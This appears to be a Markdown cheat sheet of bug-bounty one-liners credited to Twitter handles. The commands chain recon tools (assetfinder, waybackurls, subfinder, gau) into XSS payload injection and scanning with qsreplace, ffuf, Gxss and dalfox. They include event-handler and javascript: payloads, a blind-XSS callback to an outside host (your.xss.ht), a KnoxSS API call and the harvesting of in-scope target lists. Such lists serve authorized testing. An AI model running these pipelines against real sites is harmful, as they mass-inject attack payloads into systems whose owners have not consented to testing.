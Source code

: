 ## XSS from javascript hidden params
> @0xJin
```bash
assetfinder *.com | gau | egrep -v '(.css|.svg)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"
```

## XSS freq
> @ofjaaah
```bash
echo http://testphp.vulnweb.com | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq
```

## Find xss
> @skothastad
```bash
cat targets | waybackurls | anew | grep "=" | gf xss | nilo | Gxss -p test | dalfox pipe --skip-bav --only-poc r --silence --skip-mining-dom --ignore-return 302,404,403
```

> @mamunwhh
```bash
cat hosts.txt | ffuf -w - -u "FUZZ/sign-in?next=javascript:alert(1);" -mr "javascript:alert(1)" 
```

> @SaraBadran18
```bash
cat domainlist.txt | subfinder | dnsx | waybackurl | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | uro | dalfox pipe -b your.xss.ht -o xss.txt
```

## Find XSS + knoxss
> @ofjaaah
```bash
echo "domain" | subfinder -silent | gauplus | grep "=" | uro | gf xss | awk '{ print "curl https://knoxss[.]me/api/v3 -d \"target="$1 "\" -H \"X-API-KEY: APIKNOXSS\""}' | sh 
```

## Dump In-Scope Assests from Bounty Program
### BugCrowd Programs
> @dwisiswant0
```bash
curl -sL https://github.com/arkadiyt/bounty-targets-data/raw/master/data/bugcrowd_data.json | jq -r '.[].targets.in_scope[] | [.target, .type] | @tsv'
```

## Recon.dev
> @ofjaaah
```bash
curl "https://recon.dev/api/search?key=YOURAPIKEY&domain=target.com" |jq -r '.[].rawDomains[]' | sed 's/ //g' | anew |httpx -silent | xargs -I@ gospider -d 0 -s @ -c 5 -t 100 -d 5 --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt | grep -Eo '(http|https)://[^/"]+' | anew
```
